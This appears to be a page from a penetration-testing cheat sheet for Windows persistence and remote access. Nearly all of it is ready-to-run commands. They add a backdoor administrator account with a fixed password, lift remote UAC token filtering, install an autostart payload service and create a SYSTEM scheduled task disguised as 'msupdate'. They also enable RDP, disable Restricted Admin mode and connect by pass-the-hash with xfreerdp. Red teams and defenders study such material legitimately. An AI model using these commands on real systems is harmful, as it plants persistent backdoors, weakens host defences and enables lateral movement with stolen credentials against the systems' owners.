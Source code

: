 # Windows

### Create new user

```powershell
net user mylocaladmin p@ssw0rd! /add /expires:never
net localgroup administrators mylocaladmin /add
```

Create user **mylocaladmin** with password **p@ssw0rd!** and add it to **administrators** group.



Change registry settings to allow local administrator accounts to perform administrative tasks remotely without restrictions

```powershell
reg add HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\system /v LocalAccountTokenFilterPolicy /t REG_DWORD /d 1 /f
```



### Create service

Make a service, with autostart, before need prepare special payload, that is a service binary.&#x20;

```
sc.exe create "monitexp" binPath= "C:\PathToServiceBinary" type= own start= auto
```

Then start service

```
Start-Service -Name "monitexp"
```

### Scheduled task

#### schtasks.exe

_Task create:_

```
schtasks /create /tn msupdate /tr "powershell -w h calc.exe" /sc MINUTE /mo 5 /f /ru SYSTEM
```

Task info

```
schtasks /query /tn msupdate /v /fo list
```

Force the task to start_:_

```
schtasks /run /tn msupdate /i
```

_Delete task:_

```
schtasks /delete /tn msupdate /f
```



### Provide RDP access

#### Turn on RDP

```powershell
REG ADD HKLM\SYSTEM\CurrentControlSet\Control\Terminal" "Server /v fDenyTSConnections /t REG_DWORD /d 00000000 /f
```

#### Bypass Restricted Admin Mode&#x20;

```powershell
reg add HKLM\System\CurrentControlSet\Control\Lsa /t REG_DWORD /v DisableRestrictedAdmin /d 0x0 /f
```

#### Connect

```powershell
xfreerdp /v:172.16.222.254 /u:username /pth:<NT_HASH> /dynamic-resolution +clipboard
```
